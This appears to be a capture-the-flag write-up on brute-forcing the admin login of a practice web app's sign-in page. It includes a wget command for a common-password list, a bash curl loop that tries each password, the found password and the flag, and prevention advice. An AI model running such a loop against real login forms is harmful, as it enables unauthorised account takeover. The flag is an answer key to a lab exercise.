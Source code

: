 # Brute Force Authentication Vulnerability

## Overview
The login form at `/?page=signin` is vulnerable to brute force attacks, allowing attackers to guess admin credentials with no rate limiting.

---

## How It Works

1. **Finding the Target:**  
   In a previous breach, we gained access to the members page, which revealed that "admin" is a valid username.
2. **Attack:**  
   Login requests are sent like this:
   ```
   /?page=signin&username=admin&password=<PASSWORD>&Login=Login
   ```
   A failed login shows "WrongAnswer.gif".

---

## Exploitation Methods

### ** Bash Script with Password List**

- Download a password list from GitHub:
  ```bash
  wget https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/xato-net-10-million-passwords-100.txt -O pwdlist.txt
  ```
- Use this brute force loop:
  ```bash
  for pwd in $(cat pwdlist.txt); do 
  resp=$(curl -s "http://IP_ADDRESS/?page=signin&username=admin&password=$pwd&Login=Login")
  if [[ "$resp" == *"The flag is :"* ]]; then 
    flag=$(echo "$resp" | grep -oP 'The flag is : \K[a-f0-9]{64}')
    echo "Success! Username: admin | Password: $pwd | Flag: $flag"
    break
  fi done
  ```
- Password `shadow` is found to work.


---

## Result

- **Username:** admin  
- **Password:** shadow  
- **Flag:** `b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2`

---

## Prevention

1. **Account Lockout:** Temporarily disable accounts after multiple failures.
2. **Strong Password Policy:** Require complex, non-common passwords.
3. **MFA:** Add Multi-Factor Authentication for all users.
4. **CAPTCHA:** Use CAPTCHA after failed logins.
5. **Rate Limit:** Restrict login attempts per IP.
6. **Monitoring:** Alert on brute force patterns.

---

## Resources

- Password list source:  
  [https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/xato-net-10-million-passwords-100.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/xato-net-10-million-passwords-100.txt)
